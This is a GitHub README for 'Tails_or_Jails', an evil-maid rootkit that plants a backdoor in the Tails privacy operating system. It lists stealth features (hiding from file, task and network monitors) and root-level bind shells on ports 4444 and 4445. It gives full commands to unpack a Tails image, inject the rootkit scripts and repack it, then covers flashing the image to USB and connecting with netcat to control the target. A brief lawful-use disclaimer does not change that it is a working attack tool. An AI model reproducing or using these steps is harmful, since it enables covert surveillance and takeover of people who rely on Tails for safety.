


# Tails_or_Jails

## An evil-maid rootkit for Tails OS

<!-- DESCRIPTION -->
## Description:

An evil-maid rootkit is a type of stealthy malware that is physically installed on a device, by an attacker with temporary access. The term comes from the idea that even a hotel maid—or any unauthorized person—could install it while the owner is away. This rootkit is designed to compromise system security at a deep level, often targeting bootloaders, firmware, or encryption mechanisms to intercept passwords, decrypt sensitive data, or install backdoors for remote access.

## Disclaimer: 

By using this tool, you agree to use it solely for lawful purposes and not for any illegal activities. The developer disclaims any responsibility for misuse of the tool and any consequences that may arise from such actions. It is your responsibility to ensure that your use of this tool complies with all applicable laws and regulations.

<!-- FEATURES -->
## Features:

- No signs of compromise

- Hides itself from file manager, task manager and network monitoring tools

- Persistent remote access with highest privileges

- Everyone on local network can control the system by connecting to machine's ip address (port 4444 for root and port 4445 for default user)

<!-- BUILD -->

## Build it yourself:
      
    git clone https://github.com/umutcamliyurt/Tails_or_Jails.git
    cd Tails_or_Jails/
    wget https://download.tails.net/tails/stable/tails-amd64-6.11/tails-amd64-6.11.img
    mv tails-amd64-6.11.img tails-rootkit-amd64-6.11.img
    sudo losetup -Pf tails-rootkit-amd64-6.11.img
    sudo mount /dev/loop0p1 /mnt
    mkdir ~/filesystem
    mkdir ~/img_mount
    sudo unsquashfs -f -d ~/img_mount /mnt/live/filesystem.squashfs
    sudo cp -r src/* ~/img_mount/

Open another terminal and enter:

    sudo mount --types proc /proc ~/img_mount/proc
    sudo mount --rbind /sys ~/img_mount/sys
    sudo mount --rbind /dev ~/img_mount/dev
    sudo mount --rbind /dev/pts ~/img_mount/dev/pts
    sudo chroot ~/img_mount /bin/bash
    sudo chmod a+rx /.iptables.sh /.startup.sh /.startup_fallback.sh
    exit
    sudo umount ~/img_mount/proc
    sudo umount ~/img_mount/sys
    sudo umount ~/img_mount/dev/pts
    sudo umount ~/img_mount/dev

Finally build the image:
    
    sudo mksquashfs ~/img_mount ~/filesystem/filesystem.squashfs -comp zstd -Xcompression-level 3 -b 1M -processors 6
    sudo cp ~/filesystem/filesystem.squashfs /mnt/live/
    sudo umount /mnt
    sudo losetup -D

<!-- INSTALLATION -->
## Installation:

[Download Tails_or_Jails 6.11 USB image](https://github.com/umutcamliyurt/Tails_or_Jails/releases) (Skip this if you built it yourself) 
       
    sudo apt-get update
    sudo apt install gnome-disk-utility netcat

  **Plug in the USB stick on which you want to install Tails_or_Jails.**

  

  1. A new drive appears in the left pane. Click on it.

  2. Click on the Drive Options button in the title bar and choose **Restore Disk Image.**

  

  3. In the Restore Disk Image dialog, click on the file selector button.

  4. Choose the USB image that you downloaded earlier.

  5. Click the Start Restoring button.

**Make another computer boot from this USB stick.**

On your computer run `nc (target_ip) 4444` for controlling the target.

<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.
